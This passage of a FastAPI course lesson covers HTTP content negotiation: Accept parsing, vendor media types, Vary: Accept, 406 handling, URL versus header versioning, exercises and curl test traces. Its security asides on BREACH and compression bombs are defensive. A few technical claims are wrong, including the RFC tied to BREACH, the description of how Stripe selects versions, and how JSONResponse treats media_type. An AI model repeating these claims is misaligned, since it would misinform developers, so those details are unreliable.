- **Per-format serialisers, tests, metrics.** Each negotiated format means: a serialiser, a deserialiser (if you accept that format on requests too), a unit-test matrix, an integration-test matrix, a metrics dimension (Prometheus label `content_type`), and a separate incident-response runbook. Three formats (JSON, CSV, XML) means three of each. Five formats means five. The cost is linear in formats; the benefit is non-linear in client heterogeneity. Most production APIs settle on one primary format (JSON) and add a second (CSV for exports) only when a real external consumer demands it.
- **The matrix-parameter alternative.** `Accept: application/json; version=2` is a less common alternative to vendor types. Same parser logic (we already collect `params`), different convention. Stripe uses this for in-major version selection (`Accept: application/json; version=2024-10-19`); GitHub uses vendor types (`application/vnd.github.v3+json`). Both work; pick one and document it. Don't mix — mixed conventions make client SDKs impossible to write because the SDK cannot know which selector to send.
- **Brotli at the edge.** `Accept-Encoding: br` (Brotli, RFC 7932) is supported by every modern browser and by Cloudflare, Fastly, and Akamai at the CDN edge. Brotli compresses JSON roughly 20% smaller than gzip at the same CPU cost. The negotiation — `Accept-Encoding: gzip, br, identity` — is done by the CDN, not your app. Set `Content-Encoding` only if your app compresses; in production, let the CDN do it and remove the `Content-Encoding` header from your app's response. The `Vary: Accept-Encoding` header is correctly set by the CDN — but if your app sets any `Vary` value, it overrides the CDN's, so include `Accept-Encoding` in your app's `Vary` if you set `Vary` at all.


### Vendor media types: `application/vnd.boardly.v2+json`

```
Accept: application/vnd.boardly.v2+json
```

**What it is:** A vendor-specific media type. The format is `application/vnd.<vendor>.<version>+<underlying-format>`.

- `vnd` — vendor prefix.
- `boardly` — vendor name (lowercase).
- `v2` — version.
- `+json` — the underlying format is JSON; this lets generic JSON parsers know to expect JSON.

**Why use it for versioning?** The URL stays the same (`/projects`); only the `Accept` changes. That's "header versioning" — clients opt in to v2 by sending the v2 vendor type.

**Trade-off vs URL versioning (`/v2/projects`):**

- **Header versioning:** URL is stable; clients opt in via header. Documentation is harder (the version is in the request, not the URL). Hard to test in a browser (you can't easily set headers from the address bar).
- **URL versioning:** URL changes with version. Easy to test (`curl /v2/projects`). Easy to document. But the URL becomes a versioning schema, and you have to maintain old URLs forever.

**When to use which?**

- Small API, few versions, browser-testable: URL versioning (`/v1`, `/v2`).
- Large API, many versions, machine-client-only: header versioning (vendor types).
- One growing format: vendor type for the new shape, plain `application/json` for backward compat.

`Boardly` uses both: URL versioning for major releases (`/v1/`, `/v2/`) and vendor types for transitional shapes within a major release.

**Student asks: do I really need vendor types if I have `/v1` and `/v2`?**

No, not really. URL versioning is more common because it's simpler and more discoverable. Vendor types are a niche pattern for "the same URL serves multiple shapes, and the client picks via header." Most APIs don't need that. `Boardly` uses it in this lesson as a teaching example; the production API uses URL versioning.


**Student asks: what happens if the client sends no `Accept` header at all?**

The HTTP spec says the default `Accept` value is `*/*` (any), which the server should treat as "I will accept any media type the server picks." Most servers — including Starlette and FastAPI — return the server's default representation (typically `application/json` for an API). The subtlety is that "no `Accept`" and `Accept: */*` should produce identical behaviour, but some misbehaving clients send `Accept: */*; q=0.5` which means "any type, but at quality 0.5" — that still matches everything, but the relative priority is lower than an explicit `Accept: application/json`. The lesson: always treat "no `Accept`" as "server picks", and always set `Vary: Accept` so caches do not collapse the "no Accept" response onto the "Accept: application/json" response.


## The Four Headers, Side by Side

| Header | Direction | What it negotiates | Default | Acts on |
|--------|-----------|--------------------|---------|---------|
| `Accept` | request | Media type of the response body | `*/*` (any) | Server |
| `Accept-Language` | request | Natural language | `*` (any) | Server |
| `Accept-Encoding` | request | Content coding (compression) | `gzip, identity` | Usually proxy, sometimes server |
| `Content-Type` | both | Media type of the *body it appears on* | n/a (mandatory on bodies) | Both |

**`Accept-Language`:** same syntax as `Accept`. `en-US,en;q=0.9,fr;q=0.8` means "I prefer US English, then any English, then French at 80%." The server picks the best language from its supported list.

**`Accept-Encoding`:** same syntax. `gzip, br` means "I can decode gzip or Brotli." Usually the *proxy* acts on this — nginx, ALB, Cloudflare all do transparent compression. If your app compresses, you set `Content-Encoding: gzip` on the response.

**`Content-Type`:** unlike the others, this describes the *body it appears on*. On a request, it says what the request body is. On a response, what the response body is. The server uses it to dispatch parsing (JSON vs form vs multipart — see [[Request-Body-Forms-and-Uploads|Lesson 6]]).

**Danger — Security: `Accept-Encoding` is the BREACH and compression-oracle side channel.**

The fourth header (`Accept-Encoding`) is attacker-controlled input that drives whether your response is compressed. Two attack classes live here. (1) *BREACH* (RFC 7413-era side channel): if your response body contains a reflected secret (a CSRF token in the HTML, a per-user identifier in the JSON) *and* the attacker can inject chosen plaintext into the same body (a search-query string that the response echoes back), then a compressed response leaks the secret byte-by-byte via the compression-ratio side channel — the attacker observes the size of the compressed response and brute-forces the secret one character at a time. The defence is to disable compression on responses that mix reflected and secret content (`Vary: Accept-Encoding` plus a per-route `gzip off` for the affected endpoints), or to add random padding to the body so the size signal is buried in noise. (2) *Compression-bomb DoS*: an attacker sends `Accept-Encoding: gzip` and uploads a 1 MB request body that decompresses to 1 GB (a "zip bomb"). Your ASGI server, if it transparently decompresses request bodies (most don't by default — `uvicorn` does *not* decompress request bodies; some proxies do), allocates 1 GB of resident memory per such request. The defence is to cap the *decompressed* size at the ASGI layer (uvicorn's `--limit-request-body-size` is on the *raw* bytes, not the decompressed size, so for a proxy that decompresses you need the proxy-level cap). For responses, the standard defence is to refuse `Accept-Encoding: gzip` on endpoints whose response size is attacker-influenced (e.g., a search endpoint where the user controls the query string and the response echoes it). Cross-link to [[02b-Backend-Foundations/HTTP-Caching-Headers-Deep-Dive]] for the `Vary: Accept-Encoding` normalisation story and to [[11-Authentication-and-Security/Threat-Model-First]] for the broader side-channel threat model.


## Execution Trace

Run the app:

```bash
uv run uvicorn boardly.main:app --reload
```

Test 1: default (no Accept, or `*/*`).

```bash
curl -sv http://127.0.0.1:8000/projects 2>&1 | grep -E 'content-type|HTTP/'
# < HTTP/1.1 200 OK
# < content-type: application/json
# < vary: Accept
# [{"id":1,"name":"Q3 marketing site","owner":"alice@boardly.dev"},...]
```

Test 2: explicit JSON.

```bash
curl -sv http://127.0.0.1:8000/projects -H 'Accept: application/json' 2>&1 | grep -E 'content-type|HTTP/'
# < HTTP/1.1 200 OK
# < content-type: application/json
# < vary: Accept
# Same body as Test 1.
```

Test 3: CSV.

```bash
curl -sv http://127.0.0.1:8000/projects -H 'Accept: text/csv' 2>&1 | grep -E 'content-type|HTTP/'
# < HTTP/1.1 200 OK
# < content-type: text/csv; charset=utf-8
# < content-disposition: attachment; filename="projects.csv"
# < vary: Accept
# id,name,owner
# 1,Q3 marketing site,alice@boardly.dev
# 2,Internal billing,bob@boardly.dev
# 3,Mobile app v2,carol@boardly.dev
```

Test 4: v2 JSON.

```bash
curl -sv http://127.0.0.1:8000/projects -H 'Accept: application/vnd.boardly.v2+json' 2>&1 | grep -E 'content-type|HTTP/'
# < HTTP/1.1 200 OK
# < content-type: application/vnd.boardly.v2+json; charset=utf-8
# < vary: Accept
# {"items":[...],"pagination":{"limit":50,"has_more":false}}
```

Test 5: unsupported.

```bash
curl -sv http://127.0.0.1:8000/projects -H 'Accept: application/xml' 2>&1 | grep -E 'HTTP/'
# < HTTP/1.1 406 Not Acceptable
# {"detail":"supported media types: application/vnd.boardly.v2+json, application/json, text/csv"}
```

Test 6: weighted.

```bash
curl -sv http://127.0.0.1:8000/projects -H 'Accept: text/csv;q=0.9, application/json;q=1.0' 2>&1 | grep -E 'content-type|HTTP/'
# < HTTP/1.1 200 OK
# < content-type: application/json
# JSON returned (q=1.0 wins over q=0.9).
```





Why the explicit `406 Not Acceptable` branch in red? Because a content-negotiation function with no `406` path silently falls through to a default representation, which means the `Accept` header is decorative — and clients learn the wrong lesson. The diagram makes the contract visible: the purple `Accept` header is the client's *request*; the green path is the server's *fulfilment*; the red path is the server's *refusal*. A correct implementation must be able to take the red path under load — otherwise you have not implemented content negotiation, you have implemented "ignore the Accept header and pretend."

## Common Mistakes

### Mistake 1: Missing `Vary: Accept`

```python
# WRONG
return JSONResponse(data) # no Vary header
```

**Symptom:** CDN poisons the cache. The first client to a CDN edge fixes the response format for everyone.

**Why it fails:** CDN edges key cache entries on URL *plus* the request headers in `Vary`. If `Vary` doesn't list `Accept`, the cache thinks `GET /projects` with `Accept: application/json` and `GET /projects` with `Accept: text/csv` are *the same* entry — and serves whichever format was cached first to every subsequent client, regardless of their `Accept`. This is the same family of bug as the 2017 "Web Cache Deception" disclosures, but in reverse: instead of leaking one user's data to another, it leaks one format to everyone. Anecdotal example: a SaaS analytics vendor (call them "Acme Analytics") shipped `/export` without `Vary: Accept` in 2021; the first customer to hit the CDN edge got CSV, every subsequent customer who asked for JSON got CSV-with-`Content-Type: application/json`, and the parsers broke for an hour before the cache was purged.

**Fix:** Always set `Vary: Accept` on negotiated endpoints. If the response also varies by auth level, `Vary: Accept, Authorization`.

### Mistake 2: Treating `*/*` as `application/json`

```python
# WRONG
if accept == "*/*" or accept is None:
 return JSONResponse(data)
elif "text/csv" in accept:
 return Response(...)
```

**Symptom:** The server picks JSON whenever the client sends `*/*`, ignoring the order in the client's `Accept`. If the client sends `Accept: text/csv, */*;q=0.1`, the client prefers CSV; the server returns JSON.

**Fix:** Use the parser. Iterate parsed types by descending q; return the first match.

### Mistake 3: Returning 200 with the wrong content type

```python
# WRONG
return JSONResponse(data, media_type="text/csv") # JSONResponse ignores media_type
```

**Symptom:** `Content-Type: text/csv` on a JSON body. Clients try to parse as CSV, fail.

**Fix:** Use the right Response subclass for the body. `JSONResponse` for JSON; `PlainTextResponse` for text; raw `Response` for everything else.

### Mistake 4: Forgetting `406 Not Acceptable`

```python
# WRONG
if accept and "text/csv" in accept:
 return Response(...)
return JSONResponse(data) # fallback to JSON even if the client said no JSON
```

**Symptom:** Client sends `Accept: application/xml`. Server returns JSON. Client can't parse it.

**Fix:** If no supported type matches the client's `Accept`, return `406 Not Acceptable` with the supported list in the body.

### Mistake 5: Versioning by query parameter

```python
# RISKY
@router.get("/projects")
async def list_projects(self, version: str = "v1"):
 if version == "v2":
 return v2_shape
 return v1_shape
```

**Symptom:** Caches key on URL only — `?version=v1` and `?version=v2` are different URLs, so they don't collide. But: query parameters are *user-modifiable* in a way headers aren't — a user can change `?version=v1` to `?version=v2` in the address bar, which means query-param versioning is fine for opt-in features but bad for security-sensitive changes.

**Fix:** Use vendor types (header versioning) or URL paths (`/v1/projects`, `/v2/projects`). Avoid query-param versioning.

### Mistake 6: Not handling `Accept-Encoding` in-app

```python
# RISKY
# Your app doesn't compress; the proxy might not either.
```

**Symptom:** If the proxy doesn't compress and the client sends `Accept-Encoding: gzip`, you're sending uncompressed bytes over the wire. Bandwidth costs go up.

**Fix:** Either ensure the proxy compresses (nginx `gzip on;`), or compress in-app with `starlette-accepted` or a custom middleware. Most apps let the proxy handle it.

## Engineering Trade-Offs

### Header versioning vs URL versioning

- **Header (vendor type):** URL stable, easy to add new shapes, hard to test in browser, harder to document.
- **URL (`/v1/`, `/v2/`):** URL changes, easy to test, easy to document, but old URLs must be maintained forever.

Most public APIs use URL versioning for major releases. Vendor types are for in-major shape changes.

**Think like a senior engineer: content negotiation IS a versioning strategy.**

The naive framing is "should we version via URL, header, query, or vendor type?" The senior framing is different. The URL is a stable contract that identifies a *resource*; the `Accept` header is the version selector that identifies a *representation* of that resource. Conflating them — `/v2/projects` — collapses the resource identifier and the representation identifier into one string and forces every version bump to break every URL on the planet that ever linked to the resource. Keeping them separate — `/projects` + `Accept: application/vnd.boardly.v2+json` — preserves the URL as a stable link target while letting the representation evolve.

The versioning decision is therefore *not* "URL or header?" — it is "which axis do I want stable, and which do I want evolving?" If the URL must be stable (you have external link targets, you want bookmarks to keep working, you have SDKs that hard-code URLs), header versioning. If the representation must be stable (you have a published schema contract, you have SDKs that hard-code parser shapes), URL versioning. Most APIs need *both* axes stable, which is why the hybrid — URL versioning for breaking schema changes (`/v2/projects` is a new resource) plus vendor types for in-major-shape variant selection (`/v2/projects` + `Accept: application/vnd.boardly.v2+json` for the paginated envelope) — is the pattern you see at GitHub, Stripe, and the other large public APIs. The senior engineer's question is never "which one?" — it is always "what do I want stable, and what do I want free to change?"


### JSON vs CSV negotiation

CSV is the simplest format for spreadsheet-style exports; JSON for everything else. If your endpoint is *primarily* JSON, you can serve CSV from a separate URL (`/projects.csv`) for simplicity. If both formats are first-class, content-negotiate.

### `406` vs `200` with default

When the client sends an unsupported `Accept`, do you `406` or return a default? RFC says `406`. Pragmatic APIs often return a default (e.g., JSON) for friendliness. The trade-off: `406` is correct but harsh; defaulting is friendly but hides misconfiguration. Choose based on your audience: public APIs → `406`; internal APIs → default.

**Student asks: why is `406` "harsh"? Isn't it just a clean RFC-compliant rejection?**

It is RFC-compliant, but the *caller experience* of `406` is harsh because every broken client gets a hard error instead of a useful response. Public API consumers — third-party developers, mobile apps shipped before the new content type existed, scripts that haven't been updated — see `406` as "the API is broken" rather than "my client asked for the wrong thing". The friendly default (return JSON when `Accept` is unsatisfiable) costs you correctness but buys you goodwill: a client that asked for XML gets JSON, which they can almost always still parse. The trade-off is *visibility*: the friendly default hides the misconfiguration, so the bug survives longer. For internal APIs where every consumer is on your team, `406` is right (the bug surfaces immediately). For public APIs where the consumer is a stranger, defaulting is right (the API keeps working while the consumer fixes their code).


## Exercises

**Tip — The 20-minute rule**

Stuck? Re-read the relevant section above, then move on.


**Exercise 1 — Add `application/xml` support.** Implement an XML serializer for `list_projects`. Test with `Accept: application/xml`.

**Exercise 2 — Add `Accept-Language` negotiation.** Add a `messages` endpoint that returns localised strings based on `Accept-Language`. Test with `fr-FR, en-US;q=0.9`.

**Exercise 3 — Use a library.** Replace `parse_accept_header` with `accept-types.parse_accept`. Verify behaviour is identical.

**Exercise 4 — Test the cache.** Set up a simple in-memory cache (a Python dict keyed by URL). Without `Vary: Accept`, the cache returns the wrong shape. With `Vary: Accept`, the cache returns the right shape. Write a small test demonstrating this.

**Exercise 5 — Vendor versioning for v3.** Add `application/vnd.boardly.v3+json` that returns `{data: [...], meta: {...}}` (snake_case keys, different shape). Update `SUPPORTED_MEDIA_TYPES`. Test that clients can opt in.

**Exercise 6 — `406` vs default.** Change the middleware to return a default (JSON) instead of `406`. What client bugs would that hide? What's the trade-off?

**Exercise 7 — `Content-Type` dispatch.** Implement an endpoint that accepts JSON or CSV on `POST /projects/import`. Dispatch based on `Content-Type`. (Hint: this is what FastAPI does for `application/json` vs `multipart/form-data`.)

### Exercises with verification (8–12)

These exercises extend the lesson with `uv run` verification commands so you can confirm each behaviour locally before moving on. Run them from the `02b-Backend-Foundations` workspace root.

**Exercise 8 — `q=0` rejection.** Add the post-sort filter `parsed = [m for m in parsed if m.q > 0]` to `parse_accept_header`. Then verify that an explicit `q=0` is now respected: a client sending `Accept: text/csv;q=0, application/json` to `/projects` must never get CSV even if `application/json` is removed from the supported list. Verify by running `uv run python -c "from boardly.web.negotiate import parse_accept_header; print([m for m in parse_accept_header('text/csv;q=0, application/json') if m.q > 0])"` and confirming the output is a single-element list containing only the `application/json` entry.

**Exercise 9 — Pathological `Accept` DoS cap.** Add a length cap to `parse_accept_header`: reject any `Accept` value that splits into more than 100 entries (no real client sends more than 10). The cap must reject *before* the sort to keep the function O(n log n) on attacker input. Verify by running `uv run python -c "from boardly.web.negotiate import parse_accept_header; parse_accept_header(', '.join(['*/*']*1000))"` — the call must raise `ValueError` (or your chosen rejection exception) rather than building a 1000-element list. Confirm with `uv run python -c "import time; from boardly.web.negotiate import parse_accept_header; t=time.monotonic(); [parse_accept_header(', '.join(['*/*']*10000)) for _ in range(100)]; print(f'{time.monotonic()-t:.3f}s')"` that the cap holds the total time under 50 ms for 100 calls.

**Exercise 10 — Quoted-string parameter with embedded commas.** The current `accept.split(",")` parser breaks on `Accept: application/json;profile="urn:example,foo", text/csv` because the comma inside the quoted `profile` value is treated as a separator. Replace the `split(",")` with an RFC 9110 § 11.2 quoted-string-aware splitter (use `email.parser.HeaderParser` or `wsgiref.headers` as a quick shortcut, or hand-roll a state machine that toggles a `in_quotes` flag on `"`). Verify by running `uv run python -c "from boardly.web.negotiate import parse_accept_header; print([(m.type, m.params) for m in parse_accept_header('application/json;profile=\"urn:example,foo\", text/csv')])"` and confirming the first entry is `('application/json', {'profile': 'urn:example,foo'})` and the second is `('text/csv', {})` — exactly two entries, not three.

**Exercise 11 — `Vary` header merge.** Write a helper `add_vary(response, header_name)` that appends to an existing `Vary` header instead of overwriting it. Demonstrate the dual-`Vary` collapse bug by setting `Vary: Accept` twice on a Starlette `Response` and inspecting the wire output. Verify by running `uv run python -c "from starlette.responses import Response; r = Response('x', headers={'Vary': 'Accept'}); r.headers['Vary'] = 'Accept'; print('raw:', list(r.headers.raw))"` and confirming the output shows a single `Vary` entry (the duplicate was merged) — then verify your helper produces a single `Vary: Accept, Cookie` entry when called twice with different header names: `uv run python -c "from boardly.web.negotiate import add_vary; from starlette.responses import Response; r = Response('x'); add_vary(r, 'Accept'); add_vary(r, 'Cookie'); print(r.headers['Vary'])"` should print `Accept, Cookie`.

**Exercise 12 — Brotli at the edge, equal-body check.** Configure your CDN (or your dev reverse proxy) to honour `Accept-Encoding: gzip, br` and verify that the *negotiated representation* is the same regardless of which compression the client asks for — only the on-the-wire bytes differ. Verify by running `uv run python -c "import httpx; r1 = httpx.get('http://127.0.0.1:8000/projects', headers={'Accept': 'application/json', 'Accept-Encoding': 'gzip'}); r2 = httpx.get('http://127.0.0.1:8000/projects', headers={'Accept': 'application/json', 'Accept-Encoding': 'gzip, br'}); assert r1.json() == r2.json(); print('equal body:', len(r1.content), len(r2.content))"` and confirming the JSON bodies are equal and the byte counts differ only by the compression overhead.

## Verification

Run the app:

```bash
uv run uvicorn boardly.main:app --reload
```

Run the six tests above. Expected:

1. `*/*` → JSON, `content-type: application/json`, `vary: Accept` in headers.
2. `Accept: application/json` → JSON.
3. `Accept: text/csv` → CSV, `content-type: text/csv; charset=utf-8`, `content-disposition: attachment; filename="projects.csv"`.
4. `Accept: application/vnd.boardly.v2+json` → JSON v2 shape, `content-type: application/vnd.boardly.v2+json; charset=utf-8`.
5. `Accept: application/xml` → `406 Not Acceptable` with the supported list.
6. `Accept: text/csv;q=0.9, application/json;q=1.0` → JSON (q=1.0 wins).

If all six pass, your content negotiation is correctly wired.

## Previously Learned Here

These concepts were taught in earlier lessons. We link back instead of re-explaining:

- **HTTP headers (deep dive)** — [[HTTP-Headers-Deep-Dive|Lesson 1 of this section]]. `Accept` and `Content-Type` were in the survey there.
- **HTTP vocabulary** — [[02-Web-and-HTTP/Methods-Status-Headers-Content-Types]]. The `406 Not Acceptable` status code and the `Vary` header were in the table there.
- **Caching, conditional requests** — [[02-Web-and-HTTP/CORS-Caching-Headers-Conditional-Requests]]. `Vary` interacts with `Cache-Control`; the canonical reference is there.
- **Path/Query/Header parameters** — [[03-FastAPI-Core/Path-Query-Header-Cookie-Body]]. `Annotated[str | None, Header()]` is the modern form for header parameters.
- **REST and pragmatic API design** — [[02-Web-and-HTTP/REST-and-Pragmatic-API-Design]]. The versioning trade-offs are referenced there; this lesson deepens them.

## What's Next

In [[Request-Body-Forms-and-Uploads|Lesson 6 — Request Body, Forms, and Uploads]] we move from "picking the response" to "parsing the request." You'll learn:

- `application/x-www-form-urlencoded`, `multipart/form-data`, `application/json` — the three body formats.
- File uploads (single file, multiple files, large files, streaming to disk).
- Why `multipart` has higher overhead than JSON.
- The parsing order in FastAPI.
- A `POST /projects/{id}/avatar` endpoint that accepts a form with text fields + a file.

Then Lesson 7 ([[Authentication-State-Storage]]) ties everything together — where to put the access token and where to put the refresh token.

## Sources

- **RFC 9110 — HTTP Semantics, § 12 Content Negotiation** — <https://www.rfc-editor.org/rfc/rfc9110#section-12> — accessed 2026-10-19.
- **RFC 9110 — § 15.5.7 `406 Not Acceptable`** — <https://www.rfc-editor.org/rfc/rfc9110#status.406> — accessed 2026-10-19.
- **RFC 4288 — Media Type Specifications and Registration Procedures** — <https://www.rfc-editor.org/rfc/rfc4288> — accessed 2026-10-19 — vendor media types (`vnd.` prefix).
- **MDN — Content Negotiation** — <https://developer.mozilla.org/en-US/docs/Web/HTTP/Content_negotiation> — accessed 2026-10-19.
- **MDN — `Accept` header** — <https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Accept> — accessed 2026-10-19.
- **MDN — `Vary` header** — <https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Vary> — accessed 2026-10-19.
- **`accept-types` library** — <https://pypi.org/project/accept-types/> — accessed 2026-10-19.
- **FastAPI 0.148.0 release notes** — <https://fastapi.tiangolo.com/release-notes/> — verified 0.148.0 released 2026-10-19.

## What We Learned

Let's recap. In this lesson you:

- **Parsed the `Accept` header** — comma-separated media types with quality values, wildcards, vendor types.
- **Implemented an `Accept`-negotiated endpoint** that serves JSON, CSV, or v2 JSON from the same URL.
- **Set `Vary: Accept` correctly** so caches don't poison each other.
- **Learned vendor media types** (`application/vnd.boardly.v2+json`) for header-based API versioning.
- **Chose between header and URL versioning** — and the trade-offs of each.
- **Hit and fixed the six classic content-negotiation bugs** — missing `Vary`, `*/*` mishandling, wrong `Content-Type` on JSON, missing `406`, query-param versioning, no in-app compression.
- **Learned the production failure modes of `Accept` parsing** — whitespace-after-comma, qvalue format divergences, quoted parameters with embedded commas. Always split on `,` and then strip, never bake separator whitespace into the split.
- **Reasoned about content negotiation as a versioning strategy** — the URL is a stable resource identifier; the `Accept` header is the representation selector. URL versioning and header versioning are orthogonal axes, not competing choices. The senior question is "what do I want stable, and what do I want free to change?"
- **Surveyed the attacker's view of content negotiation** — `Accept`-injection into logs, error responses, and observability dashboards; parser DoS via repeated entries; CDN cache-poisoning via `Accept` normalisation gaps. Cap parsed-entry count, cap request-header size at the ASGI layer, and never reflect raw `Accept` into user-visible or operator-visible output.
- **Planned for production content negotiation at scale** — CDN Vary normalisation rules, per-format serialisers/tests/metrics/runbooks, the matrix-parameter convention as an alternative to vendor types, and Brotli compression at the CDN edge.

Here's the mental model to walk away with: *content negotiation is the HTTP-blessed way to do "same URL, different shapes." Parse `Accept`, pick the best supported match, set `Vary: Accept` on every negotiated response, return `406` when nothing matches. Use vendor types for in-major shape changes; use URL versioning (`/v1`, `/v2`) for major releases. Never use query-param versioning. Treat the `Accept` header as attacker-controlled input — cap, sanitise, and never reflect it raw.*

---

> A note from your teacher
Content negotiation is one of the HTTP features that's been there since 1991 and that almost no API uses well. The most common failure is "we serve JSON and only JSON, why bother?" — and then someone needs CSV export, and someone needs an XML shape for a legacy integration, and you end up with `/projects.json`, `/projects.csv`, `/projects.xml`, `/v2/projects`, and so on. The single URL with content negotiation is cleaner, scales better, and is what HTTP was designed for. The cost is one parser and one `Vary` header. See you in Lesson 6, where we cover the other direction — request bodies, forms, and file uploads.


---

**Tags:** #http #content-negotiation #api-design #review
**Previous:** [[CSRF-Protection]]
**Next:** [[Request-Body-Forms-and-Uploads]] ->
